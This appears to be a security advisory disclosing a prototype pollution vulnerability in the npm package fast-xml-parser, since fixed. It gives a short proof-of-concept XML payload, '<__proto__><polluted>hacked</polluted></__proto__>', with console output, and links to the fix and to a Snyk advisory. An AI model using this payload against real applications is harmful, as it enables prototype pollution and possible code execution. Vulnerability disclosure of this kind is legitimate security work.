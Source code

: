 I was auditing another application and found that they were using 
`fast-xml-parser` parse uploaded xml files.

The package description says *Validate XML, Parse XML to JS Object, or Build XML from JS Object without C/C++ based libraries and no callback.*

*Parse XML to JS Object* - this sounded very interesting and I knew I should test for prototype pollution as many other packages which *convert json to js objects* were found to be vulnerable in the past and it turned out yeah this package was vulnerable to it.

https://www.npmjs.com/package/fast-xml-parser

![image](https://user-images.githubusercontent.com/31372554/232062163-c4a4494c-429e-416b-ab41-3e3bc38aef6a.png)


https://github.com/NaturalIntelligence/fast-xml-parser

Taking an example code from the github repo to demonstrate the bug:


```js
const { XMLParser, XMLBuilder, XMLValidator} = require("fast-xml-parser");


let XMLdata = "<__proto__><polluted>hacked</polluted></__proto__>"

const parser = new XMLParser();
let jObj = parser.parse(XMLdata);


console.log(jObj.polluted) // should return hacked
```

![Code_G3UvvJcSv5](https://user-images.githubusercontent.com/31372554/218308540-86792929-3631-4580-8373-4651487418b5.png)

In the above screenshot you can see the `jObj` was polluted with a new property.

```js
jObj
>{}
jObj.__proto__
>{polluted: 'hacked'}
jObj.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/

As it is common for developers to pass user controllable input to `XMLParser` , this can to do unexpected results. By chaining it with some prototype pollution gadget it might even can lead to RCE in some cases https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/


Fix commit: https://github.com/NaturalIntelligence/fast-xml-parser/commit/2b032a4f799c63d83991e4f992f1c68e4dd05804

They are now validating, if the key contains `__proto__` and replaces it with `#__proto__`

CVE is still pending 

The package maintainer @amitguptagwl was very swift in replies and addressing the reported issue :)


SNYK Advisory: https://security.snyk.io/vuln/SNYK-JS-FASTXMLPARSER-3325616
